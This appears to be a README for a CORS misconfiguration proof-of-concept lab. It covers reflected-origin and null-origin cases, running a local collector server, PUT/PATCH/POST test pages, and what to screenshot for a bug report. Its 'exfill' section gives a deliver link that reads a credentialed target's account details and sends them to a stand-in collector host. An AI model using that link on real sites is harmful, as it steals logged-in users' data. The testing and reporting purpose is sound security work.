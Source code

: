 # CORS PoC (local lab)

# case 1 reflections
Access-Control-Allow-Origin: https://malicious-website.com

Access-Control-Allow-Credentials: true

# case 2 null origin
Access-Control-Allow-Origin: null

Access-Control-Allow-Credentials: true

# exfill
Now you can send a single “deliver” link such as:

https://ythone.github.io/cors_poc/deliver.html?target=https://TARGET/accountDetails&creds=1&exfil=https://your-collector.example/collect

https://ythone.github.io/cors_poc/deliver.html
  ?target=https://TARGET/accountDetails
  &creds=1
  &exfil=https://your-collector.example/collect

# local test
Run locally:

npm i
node server.js
# -> POST target data to http://localhost:8089/collect ; view http://localhost:8089/logs


# PoC A — “Credentialed reflection” (PUT/PATCH/POST), no exfil
# Point your PoC’s exfil to that /collect endpoint.

How to use:

Log in to the target in the same browser if the endpoint needs auth.

Pick the method (PUT/PATCH/POST), set headers/body, Use cookies as needed, click Run.

If the body renders and ACAO reflects your origin (and ACAC is true when using creds), you’ve proven a read-capable CORS misconfig for that method.

In DevTools → Network, you should also see the preflight OPTIONS succeed with the correct Access-Control-Allow-* lines.


# PoC B — “Origin: null” + methods (sandboxed Blob iframe), no exfil
What to screenshot for the report

Your PoC page showing the response body.

DevTools → Network in the PoC tab:

The preflight OPTIONS (status OK) with Access-Control-Allow-Methods including your method and Access-Control-Allow-Headers including any custom headers.

The actual method response with Access-Control-Allow-Origin: <your origin> (or null) and Access-Control-Allow-Credentials: true if you used cookies.


# Troubleshooting quick hits

No preflight response / 4xx: the server isn’t allowing your method/headers; you can’t prove a read.

Body doesn’t render + CORS error: check ACAO/ACAC on the actual response; also ensure you’re logged in and cookies are cross-site sendable (credentialed case).

Null-origin case: use the Blob-iframe PoC (B) or a file:// page; confirm Origin: null in DevTools.

These two pages let you demonstrate PUT/PATCH/POST CORS misconfigurations with the same, clean “read in the browser, no exfil” style as your earlier GET PoCs.